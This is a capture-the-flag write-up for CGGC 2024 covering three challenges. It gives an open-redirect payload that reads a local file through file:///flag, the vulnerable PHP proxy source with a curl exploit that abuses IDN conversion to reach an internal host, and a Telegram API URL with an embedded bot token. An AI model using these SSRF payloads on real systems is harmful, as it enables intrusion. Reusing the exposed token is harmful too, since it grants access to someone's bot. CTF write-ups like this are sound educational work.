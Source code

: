 ```yaml
---
title: ( Writeup ) CGGC 2024
published: 2024-11-02
description: 'CGGC 2024'
image: ''
tags: [Writeup, CTF]
category: 'WriteUps'
draft: false 
---
```


## Preview Site 🔍
> Description: This website allows you to preview this website.

### Exploit
- Login as guest (pwd: guest)
- Go to /fetch
- Payload: `http://previewsite/logout?next=file:///flag`

**FLAG:**
`CGGC{open_redirect_to_your_local_file_2893hrgiubf3wq1}`

---

## Proxy

> Description: Access http://secretweb/flag to get flag.

### Source File
```php
<?php

function proxy($service) {
    // $service = "switchrange";
    // $service = "previewsite";
    // $service = "越獄";
    $requestUri = $_SERVER['REQUEST_URI'];
    $parsedUrl = parse_url($requestUri);

    $port = 80;
    if (isset($_GET['port'])) {
        $port = (int)$_GET['port'];
    } else if ($_COOKIE["port"]) {
        $port = (int)$_COOKIE['port'];
    }
    setcookie("service", $service);
    setcookie("port", $port);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    $filter = '!$%^&*()=+[]{}|;\'",<>?_-/#:.\\@';
    $fixeddomain = trim(trim($service, $filter).".cggc.chummy.tw:".$port, $filter);
    $fixeddomain = idn_to_ascii($fixeddomain);
    $fixeddomain = preg_replace('/[^0-9a-zA-Z-.:_]/', '', $fixeddomain);
    curl_setopt($ch, CURLOPT_URL, 'http://'.$fixeddomain.$parsedUrl['path'].'?'.$_SERVER['QUERY_STRING']);
    curl_exec($ch);
    curl_close($ch);
}

if (!isset($_GET['service']) && !isset($_COOKIE["service"])) {
    highlight_file(__FILE__);
} else if (isset($_GET['service'])) {
    proxy($_GET['service']);
} else {
    proxy($_COOKIE["service"]);
}

```

### Exploit
```bash=
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: 10.99.66.6' -H $'Cache-Control: max-age=0' -H $'Accept-Language: zh-TW' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'service=\xfd; port=80' \
    $'http://10.99.66.6/secretweb/flag'
```

**FLAG:**
`CGGC{1Dn_7O_45c11_5o_57R4n9E_11fc26f06c33e83f65ade64679dc0e58}`

---

## Day31- 水落石出！真相大白的十一月預告信？

### Exploit

- https://ithelp.ithome.com.tw/articles/10363058
- ![image](https://hackmd.io/_uploads/SJLKkmrWkx.png)

- 連線進入即可找到 Flag
https://api.telegram.org/bot7580842046:AAEKmOz8n3C265m2_XSv8cGFbBHg7mcnbMM/getUpdates


**FLAG:**
`CGGC{1_h8t3_y0u_K41d0_K4zm4}`